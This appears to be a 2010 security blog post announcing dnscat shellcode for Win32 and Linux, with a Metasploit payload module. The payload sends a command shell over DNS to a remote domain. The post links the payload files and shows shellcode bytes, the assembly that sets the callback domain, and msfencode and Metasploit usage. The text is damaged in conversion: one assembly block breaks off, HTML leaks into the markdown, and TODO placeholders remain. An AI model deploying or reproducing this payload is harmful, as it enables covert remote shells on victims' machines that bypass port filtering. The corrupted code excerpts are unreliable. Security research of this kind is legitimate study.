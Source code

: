 ```yaml
---
id: 614
title: 'Weaponizing dnscat with shellcode and Metasploit'
date: '2010-03-17T20:08:14-05:00'
author: 'Ron Bowes'
layout: revision
guid: 'http://www.skullsecurity.org/blog/?p=614'
permalink: '/?p=614'
---
```


Hey all,

I've been letting other projects slip these last couple weeks because I was excited about converting dnscat into shellcode. Even though I got into the security field with reverse engineering and writing hacks for games, I have never written more than a couple lines of x86, nor have I ever written shellcode, so this was a learning experience. Most people start with shellcode that spawns a local shell; I decided to start with shellcode that implements a dnscat client in under 1024 bytes. It's a party!  
  
If you just want to grab the files, here are some links:

- [Win32 shellcode - assembler](/blogdata/dnscat-shell-win32.asm)
- [Win32 shellcode - binary](/blogdata/dnscat-shell-win32)
- [Win32 shellcode - C array](/blogdata/dnscat-shell-win32.h)
- [Win32 Metasploit module](/blogdata/dnscat-shell-win32.rb)
- [Linux shellcode - assembler](/blogdata/dnscat-shell-linux.asm)
- [Linux shellcode - binary](/blogdata/dnscat-shell-linux)
- [Linux shellcode - C array](/blogdata/dnscat-shell-Linux.h)

If you want to get your hands dirty, you can compile the source -- right now, it's only in svn:

```
svn co http://svn.skullsecurity.org:81/ron/security/nbtool
cd nbtool
make
```

That'll compile both dnscat (the client + server) and, if you have nasm installed, the Linux and Windows shellcodes. On Windows, you'll need nasm to assemble it (I used Cygwin) -- you can compile the Windows shellcode on Linux and vice versa, though. The output will be in samples/shellcode-\*/. A .h file containing the C version will be generated, as well:

```
$ head -n3 dnscat-shell-test.h
char shellcode[] =
        "\xe9\xa2\x01\x00\x00\x5d\x81\xec\x00\x04\x00\x00\xe8\x4e\x03\x00"
        "\x00\x31\xdb\x80\xc3\x09\x89\xef\xe8\x2e\x03\x00\x00\x80\xc3\x06"
...
```

And, of course, the raw file is output (without an extension), that can be run through msfencode or embedded into a script:

```
 $ make
[...]
$ wc -c samples/shellcode-win32/dnscat-shell-win32
997 samples/shellcode-win32/dnscat-shell-win32
$ wc -c samples/shellcode-linux/dnscat-shell-linux
988 samples/shellcode-linux/dnscat-shell-linux
```

Unless you want to be sending your cmd.exe (or sh) shell to skullseclabs.org, you'll have to modify the domain as well -- the very last line in the assembly code for both Windows and Linux is this:

```
get_domain:
 call get_domain_top
 db 1, 'a' ; random
 db 12,'skullseclabs' ; 
<p>The two lines with the domain have to be changed. The number preceding the name is, as the comment says, the length of the section ('skullseclabs' is 12 bytes, and 'org' is 3 bytes). This process is automated with the Metasploit payload, as you'll see. </p>
<h2>Encoding with msfencode</h2>
<p>msfencode from the Metasploit project is a beautiful utility. I highly recommend running shellcode through it before using it. The most useful aspect with shellcode is, at least to me, the ability to eliminate characters. So, if I need to get rid of \x00 (null) characters from my strings, it's as easy as:</p>
$ msfencode -b "\x00"  dnscat-shell-win32-encoded
[*] x86/shikata_ga_nai succeeded with size 1024 (iteration=1)

<p>If you're planning on using this in, for example, Metasploit, you don't have to worry about the msfencode step -- it'll do that for you. </p>
<h2>Metasploit payload</h2>
<p>Speaking of metasploit, yes! I wrote a metasploit payload for dnscat. </p>
<p>First, there are a number of caveats:</p>
```

- This is highly experimental
- This doesn't have a proper "exitfunc" call -- it just returns and probably crashes the system
- This is set up as a single stage, and is 1000 or so bytes -- as a result, it won't work against most vulnerabilities

That being said, it also works great when it's usable. The target I use for testing is Icecast 2 (TODO), which is included on the SANS 560 and 504 CDs. It's free, GPL, reliable, and has 2000 bytes in which to stuff the payload.

To use this, download the payload module (TODO: link), put it in your metasploit directory (modules/payloads/singles/windows), and use:

```
use exploit/windows/http/icecast2_host (TODO);
etc.
```

## Why bother?

The big advantage to this over traditional shellcode is that no port, whether inbound or outbound, is required! As long as the server has a DNS server set that will perform recursive lookups, it'll work great!

## Feedback

As I said, this is the first time I've ever written shellcode or x86. I'm sure there are lots of places where it could be significantly improved, and I'd love to hear feedback from the folks who really know what they're doing and can help me improve my code.

Thanks!